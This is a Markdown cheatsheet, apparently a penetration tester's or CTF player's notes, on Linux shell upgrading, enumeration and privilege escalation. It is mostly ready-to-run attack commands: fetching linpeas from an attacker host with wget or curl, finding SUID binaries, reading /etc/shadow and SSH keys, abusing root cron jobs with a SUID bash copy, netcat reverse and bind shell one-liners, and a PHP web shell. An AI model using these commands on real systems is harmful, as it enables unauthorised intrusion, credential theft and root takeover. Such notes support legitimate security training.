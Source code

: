 #cheatsheet 
# Linux Enumeration & Privilege Escalation

## Upgrade Shell
1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Spawns a python shell
2. `export TERM=xterm` - gives access to term commands such as clear
3. `stty raw -echo; fg` - turn off terminal echo (we can use arrow keys & autocomplete) and then foregrounds the shell

**Note:** If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### Change Terminal tty Size
1. *On attacker machine:*
`stty -a` - note down the values for column and rows

2. *On victim machine:*
`stty rows <value of rows>`
`stty cols <value of cols>`

## Linux Enumeration
### Using shell scripts (linpeas/linenum)
*Copy **linpeas.sh** from attacker machine to victim machine: *
1. *On attacker machine:*
`cd /path/to/linpeas`
`python3 -m http.server <port>`

2. *On victim machine:*
`wget http://<attacker-tun0-ip>:<port>/linpeas.sh -O /tmp/linpeas.sh`
OR
`curl http://<attacker-tun0-ip>:<port>/linpeas.sh -o /tmp/linpeas.sh`

3. *Change permissions to make it executable:*
`chmod +x linpeas.sh`

4. *Run linpeas.sh*
`./linpeas.sh`

**Note:** Linpeas does not find some important files such as a .txt file in /opt/ directory. It is recommended to manually visit all the directories in /.

### Manual
1. Run `sudo -l` to see what can be executed with root permissions

2. Important things to look out for:
- Binaries with SUID bit set
`find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null`

- Cronjobs run by root
`cat /etc/crontab`

- Readable /etc/shadow file
`cat /etc/shadow`

- /var/www/, /opt/, /usr/local/ (essentially all the directories in /)

- SSH keys
`ls -la /home/<user>/.ssh`

- Interesting files in /home/\<user\>

- Unusual directories or files in / dir
	
- .txt, .bak files
`locate txt` OR `find / -name *.txt`
`locate bak` OR `find / -name *.bak`

#### Cronjobs
If a bash file is user/world writeable and is run as root in a cronjob, the following could be a possible privesc method:
Add the relevant code to the user/world writeable file:
**Method 1**
1. Copy /bin/bash to /tmp and change permissions to enable SUID on the binary using 4755 permissions
2. Run the SUID binary to gain root shell
`/bin/bash -p`

**Method 2**
Listener For Bind Shell on Linux
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Listener For Reverse Shell
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Appropriately run *nc* command on the attacker machine based on the listener in the cron root executable file.*

___

If root password is available:
`su -` - then type password to gain shell

**Webshell**
Usually written in HTML forms or directly in browser (URL)
`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

___
